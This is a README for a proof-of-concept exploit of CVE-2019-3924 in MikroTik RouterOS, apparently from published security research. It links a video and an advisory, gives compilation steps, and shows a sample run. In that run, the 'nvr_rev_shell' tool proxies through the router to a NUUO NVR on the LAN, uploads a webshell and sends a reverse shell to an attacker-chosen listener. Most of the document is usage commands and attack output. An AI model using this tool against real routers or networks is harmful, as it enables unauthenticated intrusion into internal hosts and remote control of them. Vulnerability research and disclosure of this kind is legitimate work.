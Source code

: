 # CVE-2019-3924

A remote, unauthenticated attacker can proxy traffic through RouterOS via probes sent to the agent binary. This PoC demonstrates how to exploit a LAN host from the WAN. A video demonstrating the attack can be found here:

* https://www.youtube.com/watch?v=CxyOtsNVgFg

A Tenable Research Advisory for the vulnerability can be found here:

* https://www.tenable.com/security/research/tra-2019-07

## Compilation
This code was tested on Ubuntu 18.04. There is a dependency on boost, gtest, and cmake. Simply install them like so:

```sh
sudo apt install libboost-dev cmake
```

To compile simply do the following:

```sh
cd routeros/poc/cve_2019_3924/
mkdir build
cd build
cmake ..
```

## Sample Usage

```sh
albinolobster@ubuntu:~/routeros/poc/cve_2019_3924/build$ ./nvr_rev_shell --proxy_ip 192.168.1.70 --proxy_port 8291 --target_ip 10.0.0.252 --target_port 80 --listening_ip 192.168.1.7 --listening_port 1270
[!] Running in exploitation mode
[+] Attempting to connect to a MikroTik router at 192.168.1.70:8291
[+] Connected!
[+] Looking for a NUUO NVR at 10.0.0.252:80
[+] Found a NUUO NVR!
[+] Uploading a webshell
[+] Executing a reverse shell to 192.168.1.7:1270
[+] Done!
albinolobster@ubuntu:~/routeros/poc/cve_2019_3924/build$
```
